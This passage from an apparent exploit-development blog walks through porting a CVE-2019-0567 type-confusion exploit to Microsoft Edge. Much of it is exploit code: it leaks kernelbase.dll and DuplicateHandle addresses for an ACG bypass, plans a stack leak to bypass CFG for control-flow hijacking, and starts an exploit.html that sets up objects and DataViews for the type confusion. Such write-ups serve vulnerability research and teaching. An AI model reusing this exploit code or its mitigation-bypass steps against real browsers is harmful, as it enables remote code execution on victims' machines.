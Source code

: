 ```html
    kernelbaseHigh = kernelbaseLeak[1];

    // Store the pointer to KERNELBASE!DuplicateHandle (needed for our ACG bypass) into a more aptly named variable
    var duplicateHandle = new Uint32Array(0x4);
    duplicateHandle[0] = kernelbaseLeak[0];
    duplicateHandle[1] = kernelbaseLeak[1];

    // Print update
    document.write("[+] kernelbase.dll base address: 0x" + hex(kernelbaseHigh) + hex(kernelbaseLo));
    document.write("<br>");
}
</script>
```

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion17.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion18.png" alt="">

We are now almost done porting our exploit primitives to Edge from ChakraCore. As we can recall from our ChakraCore exploit, the last thing we need to do now is leak a stack address/the stack in order to bypass CFG for control-flow hijacking and code execution.

Recall that this information derives from [this Google Project Zero issue](https://bugs.chromium.org/p/project-zero/issues/detail?id=1360). As we can recall with our ChakraCore exploit, we computed these offsets in WinDbg and determined that ChakraCore leveraged _slightly_ different offsets. However, since we are now targeting Edge, we can update the offsets to those mentioned by Ivan Fratric in this issue.

However, even though the `type->scriptContext->threadContext` offsets will be the ones mentioned in the Project Zero issue, the stack address offset is _slightly_ different. We will go ahead and debug this with `alert()` statements.

We know we have to leak a `type` pointer (which we already have stored in `exploit.html` the same way as part two of this blog series) in order to leak a stack address. Let's update our `exploit.html` with a few items to aid in our debugging for leaking a stack address.

```html
<button onclick="main()">Click me to exploit CVE-2019-0567!</button>

<script>
// CVE-2019-0567: Microsoft Edge Type Confusion
// Author: Connor McGarr (@33y0re)

// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
```